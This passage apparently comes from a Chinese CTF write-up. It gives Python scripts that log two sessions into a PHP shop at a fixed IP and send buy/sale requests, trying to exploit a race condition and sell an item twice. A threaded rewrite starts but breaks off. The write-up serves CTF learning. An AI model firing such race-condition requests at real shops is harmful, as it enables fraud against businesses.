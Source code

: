 ```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import requests

username = "moxiaoxi"
password = "moxiaoxi"

cookie1 = {"PHPSESSID":"gseqg01fg54is7nh733lch3eu1"}#PHPSESSID随意
cookie2 = {"PHPSESSID":"r18k5gc0mvu94urgd04k8hgbl7"}

url1 = "http://202.120.7.197/app.php"

paramsLogin ={"action":"login"}
data = {"username":username,"pwd":password}
paramsBuy = {"action":"buy","id":"1"}
paramsSale = {"action":"sale","id":"1"}

res = requests.post(url = url1,params = paramsLogin,data = data,cookies = cookie1)
print res.text
res = requests.post(url = url1,params = paramsLogin,data = data,cookies = cookie2)
print res.text

res = requests.get(url1,params = paramsBuy,cookies = cookie1)
print res.text
res = requests.get(url1,params = paramsSale,cookies = cookie2)
print res.text
res = requests.get(url1,params = paramsSale,cookies = cookie1 )
print res.text
```

发现这样还是没办法触发。。

和louys讨论了一下，发现一个坑点。。

貌似是因为requests是阻塞的，所以他得一个请求完，才能继续请求。阻塞就代表线性，没有竞争。

![zuse](https://mo-xiaoxi.github.io/img/post/0ctf/zuse.png)

而curl是不阻塞的，直接发包的

![louys](https://mo-xiaoxi.github.io/img/post/0ctf/louys.png)

改写一波paylaod

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import requests
import threading

username = "moxiaoxi"
password = "moxiaoxi"

cookie1 = {"PHPSESSID":"gseqg01fg54is7nh733lch3eu1"}#PHPSESSID随意
cookie2 = {"PHPSESSID":"r18k5gc0mvu94urgd04k8hgbl7"}

url1 = "http://202.120.7.197/app.php"

paramsLogin ={"action":"login"}
data = {"username":username,"pwd":password}
paramsBuy = {"action":"buy","id":"1"}
paramsSale = {"action":"sale","id":"1"}

session1 = requests.session()
session2 = requests.session()

```